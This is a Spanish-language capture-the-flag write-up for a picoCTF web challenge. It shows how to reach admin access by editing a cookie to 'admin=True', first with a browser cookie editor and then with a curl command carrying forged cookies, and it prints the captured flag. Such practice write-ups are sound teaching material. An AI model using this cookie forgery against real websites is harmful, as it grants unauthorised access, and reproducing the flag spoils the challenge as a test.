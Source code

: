 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796
## Solución 1
- Ingreso o inicio sesión con otro nombre de usuario que no sea Joe y una contraseña cualquiera para poder entrar.
- Uzo la herramienta de cookie-editor y modifico el valor que viene por "True" en el campo de admin.
- Y al final refresco la pagina.
```
picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}
```
## Solución 2
```
armandopc-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/44573/flag -H 'Cookie: password=hola; username=Juan; admin=True' | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
armandopc-picoctf@webshell:~$ 
```

## Notas Adicionales
-s - Para que no nos muestre la información de descarga.
-H - Envía un encabezado.

## Referencias
- [jQuery - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/JQuery)
- [Bootstrap (framework) - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Bootstrap_(framework))
- [Cookie (informática) - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica))
- [HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP)
- [HTTP headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [Request header](https://developer.mozilla.org/en-US/docs/Glossary/Request_header)
- [Response header](https://developer.mozilla.org/en-US/docs/Glossary/Response_header)
- [HTTP request methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)
- [HTTP response status codes](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status)